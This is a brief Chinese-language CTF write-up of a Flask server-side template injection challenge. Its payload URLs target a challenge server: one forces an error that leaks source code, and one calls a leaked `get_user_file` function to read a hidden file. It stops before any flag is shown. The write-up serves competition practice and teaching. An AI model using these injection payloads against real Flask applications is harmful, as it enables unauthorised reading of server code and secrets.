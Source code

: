 # WEB

## 243 python题


[我是链接](http://218.76.35.75:20102)

查看源码可以发现是一个 flask python test
搜flask注入得到[flask注入](http://www.freebuf.com/articles/web/88768.html)
然后让flask报错

	http://218.76.35.75:20102/data=sleep{{person.secret}}
	故意漏写一个字母
	http://218.76.35.75:20102/data=sleep{{peron.secret}}

得到页面源码发现

	def get_user_file(f_name):
		if(f_name =='473bfa63bfeb1e673d6d151a799af923.py')
		
于是构造
	
	http://218.76.35.75:20102/?data=sleep.{{get_user_file("473bfa63bfeb1e673d6d151a799af923.py")}}
得到flag：
